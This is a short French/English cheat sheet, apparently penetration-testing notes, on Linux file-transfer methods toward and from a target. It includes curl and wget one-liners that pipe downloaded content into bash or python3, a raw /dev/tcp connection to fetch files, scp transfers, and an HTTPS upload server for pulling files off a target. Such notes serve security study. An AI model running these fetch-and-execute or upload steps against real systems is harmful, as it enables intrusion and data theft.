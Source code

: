 ----

## Linux File Transfer Methods

#### Méthode classique
###### Base 64 : décode or encode + md5sum to check validation

###### wget 

###### curl

#### filess operation tools

``` bash
# curl
curl <LinkDownload> | <bash | python3 | ... >

# wget 
wget -qO- <LinkDownload> | <bash | python3 | ... >
```

#### others

###### Bash

```bash
# connect with bash
exec 3<>/dev/tcp/<TargetIP>/<Port | 80>
# send get request
echo -e "GET /<FileName> HTTP/1.1\n\n">&3
# get response
cat <&3
```

###### SSH

```bash
# autoriser les serveur ssh
sudo systemctl enable ssh 

# commencer
sudo systemctl start ssh
# se connecter avec scp
scp <Username>@<IP>:/<FilePath> .
``` 

* ssh : SCP Upload 

```bash
scp <FilePathOnMyLaptop> <UserName>@<CibleIP>:/<PathOnTargetLaptop>
```

###### WEB SERVER upload

```bash
#install and use
python3 -m pip install --user uploadserver
# generate certificat
openssl req -x509 -out server.pem -keyout server.pem -newkey rsa:2048 -nodes -sha256 -subj '/CN=server'
# init folder
mkdir https && cd https
# create the server
python3 -m uploadserver 443 --server-certificate /root/server.pem


# chez la target : Upload on main machine
```